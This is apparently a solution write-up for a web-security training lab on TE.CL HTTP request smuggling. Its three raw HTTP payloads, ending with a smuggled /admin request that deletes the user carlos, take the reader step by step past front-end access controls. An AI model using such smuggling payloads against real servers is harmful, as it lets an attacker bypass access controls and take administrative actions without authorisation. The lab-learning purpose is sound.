 
# Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

Note: Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.


---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling/exploiting



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls,%20TE.CL%20vulnerability/1.png)

---------------------------------------------

First we can test a previously used payload to generate a request with GPOST, finding it generates an error every 2 requests:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

26
GPOST / HTTP/1.1
Content-Length: 10

0


```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls,%20TE.CL%20vulnerability/2.png)


Then we can adapt the payload to access /admin using the header “Host: localhost” as previously:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

3a
GET /admin HTTP/1.1
Host: localhost
Content-Length: 10

0


```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls,%20TE.CL%20vulnerability/3.png)


And finally delete the user “carlos”:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

51
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 10

0


```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20bypass%20front-end%20security%20controls,%20TE.CL%20vulnerability/4.png)

